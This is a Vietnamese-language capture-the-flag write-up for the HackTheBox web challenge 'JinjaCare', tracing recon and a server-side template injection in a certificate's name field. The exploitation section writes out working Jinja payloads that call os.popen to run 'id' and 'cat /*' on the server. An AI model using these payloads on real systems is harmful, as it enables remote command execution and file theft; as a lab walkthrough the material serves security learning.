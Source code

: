 # 🏴‍☠️ CTF Writeup – [JinjaCare]

## 📌 Thông tin chung
- **Challenge:** JinjaCare 
- **CTF Event:** HackTheBox Challenges  
- **Category:** Web 
- **Difficulty:** Very Easy

---

## 📜 Mô tả đề bài
> Jinjacare is a web app for managing COVID-19 vaccination records, allowing users to view history and generate digital certificates. You're invited to identify security vulnerabilities in the system and retrieve the hidden flag from the application. 
- File/URL cung cấp: [Thử thách](https://app.hackthebox.com/challenges/JinjaCare)
- Thông tin thử thách :
![alt text](image.png)
---

## 🔎 Recon / Ý tưởng ban đầu
- Quan sát ban đầu: Đây là trang web mô phỏng thống kê về các mũi tiêm trong đợt dịch COVID với các chức năng chính:
    - Trang chính: Thông tin chung, download chứng chỉ
    - Quản lý trang cá nhân:
        - Thông tin cá nhân
        - Tiền sử bệnh lý 
        - Bản ghi Vaccin
- Các thử nghiệm đầu tiên:  
    - Kiểm tra thông tin của Cert
    ![alt text](image-2.png)
    - Thông tin người dùng
    ![alt text](image-3.png)
- Kết quả/ghi chú:  
    - Ở các nơi nhập đầu vào của trang web không thấy dữ liệu gửi phía server, chỉ có cập nhập thông tin và nhận chứng chỉ. Trong chứng chỉ có trường name có thể kiếm soát
---

## 🧩 Phân tích
- Giải thích lỗ hổng / kỹ thuật chính: 
    - Lỗ hổng có thể do trước khi genarate pdf sẽ được tạo từ 1 template và được nhúng trực tiếp tên người dùng để render lại PDF.
- Tại sao có thể khai thác:  
    - Dữ liệu đầu vào không được lọc và sử dụng template để tạo ra cert.


---

## 🚀 Khai thác / Giải pháp
- Các bước exploit:  
    - Thử `Name = {{7*7}}` để kiểm tra 
    - Kết quả:
    ![alt text](image-4.png)
    - Thử với các payload của Jinja Template `Name={{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}`
    - Kết quả:
    ![alt text](image-5.png)
    - `Payload={{request.application.__globals__.__builtins__.__import__('os').popen('cat /*').read()}}`
    - Kết quả:
    ![alt text](image-6.png)
